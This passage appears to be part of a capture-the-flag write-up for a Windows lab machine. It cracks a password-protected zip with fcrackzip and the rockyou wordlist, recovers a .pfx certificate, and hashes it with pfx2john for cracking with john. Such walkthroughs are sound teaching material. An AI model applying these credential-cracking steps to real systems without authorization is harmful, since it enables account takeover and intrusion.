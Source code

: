 ### ABOUT LAPS

The "Local Administrator Password Solution" (LAPS) provides management of local account passwords of domain joined computers. Passwords are stored in Active Directory (AD) and protected by ACL, so only eligible users can read it or request its reset.

<br>


### ZIP FILE CRACKING

While trying to unzip the `winrm_backup.zip` file it turns out to be password protected so we will use `fcrackzip` utility to crack the zip file password using `rockyou.txt` wordlist.
```bash
$unzip winrm_backup.zip 
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password:
   skipping: legacyy_dev_auth.pfx    incorrect password

fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt winrm_backup.zip


PASSWORD FOUND!!!!: pw == supremelegacy
```
We found the password as `supremelegacy`. we will now unzip using this password.
```bash
unzip winrm_backup.zip
Archive:  winrm_backup.zip
[winrm_backup.zip] legacyy_dev_auth.pfx password:
  inflating: legacyy_dev_auth.pfx
```

Theres a file `legacyy_dev_auth.pfx` in the zip archive.

### ABOUT PFX FILE EXTENSION

A .pfx file is a digital certificate file that is used to authenticate a user or device. It contains the private key and public key for the certificate, as well as any intermediate certificates that are required for trust. PFX files are typically used for secure web connections, email signing and encryption, and other secure communications

<br>

Using `openssl` to extract the key and certificate from the `.pfx` file, it appears to require a password. 
```bash
$openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key -nodes
Enter Import Password:
```

### PFX2JOHN

`pfx2john.py` will generate hash for this, and we can use `john` to crack the hash.
```bash
$sudo python3 /usr/share/john/pfx2john.py legacyy_dev_auth.pfx > pfx.hash
```
